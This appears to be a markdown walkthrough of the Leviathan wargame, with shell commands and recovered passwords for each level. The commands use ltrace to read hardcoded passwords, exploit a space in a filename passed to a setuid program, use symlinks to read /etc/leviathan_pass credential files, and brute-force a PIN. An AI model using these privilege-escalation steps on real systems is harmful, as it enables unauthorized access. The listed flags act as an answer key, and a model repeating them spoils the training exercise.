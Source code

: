 # Leviathan

### Level numbers are the current level, password is for the following level

## Level 0

```sh
grep lev .backup/bookmarks.html
```

PPIfmI1qsA

## Level 1

```sh
ltrace ./check
# step through some calls..
strcmp("\n\n\n", "sex")
# Become leviathan2
$ whoami
$ leviathan2
$ cat /etc/leviathan_pass/leviathan2
```
mEh5PNl10e

## Leviathan 2

`printfile` has a bug wherein the internal call to `/bin/cat` will not handle spaces in filenames and thus potentially call more than one file

```sh
touch /tmp/leviathan2/space\ file.txt
ln -s /etc/leviathan_pass/leviathan2 space
~/printfile "/tmp/leviathan2/space file.txt"
```

Q0G8j4sakn

## Leviathan 3

```sh
ltrace ./leviathan3
# ...
> strcmp("kakaka\n", "snlprintf\n")
# pw is snlprintf, drops us into shell as leviathan4
cat /etc/leviathan_pass/leviathan4
```

AgvropI4OA

## Leviathan 4

```sh
cd .trash
./bin
01000101 01001011 01001011 01101100 01010100 01000110 00110001 01011000 01110001 01110011 00001010
```

Decode output with cyberchef binary -> text

EKKlTF1Xqs

## Leviathan 5

```sh
./leviathan5
> Cannot find /tmp/file.log
# binary is looking for that file and cats the output of it, so create a symlink to the leviathan6 password file and we have our flags
ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
./leviathan5
```

YZ55XPVk2l

## Leviathan 6

```sh
#!/bin/bash

cd /home/leviathan6
for i in {0000..9999}; do
  ./leviathan6 $i
done
```

With a successful password, we're dropped into a shell as leviathan7

```sh
cat /etc/leviathan_pass/leviathan7
```

8GpZ5f8Hze

## Leviathan 7


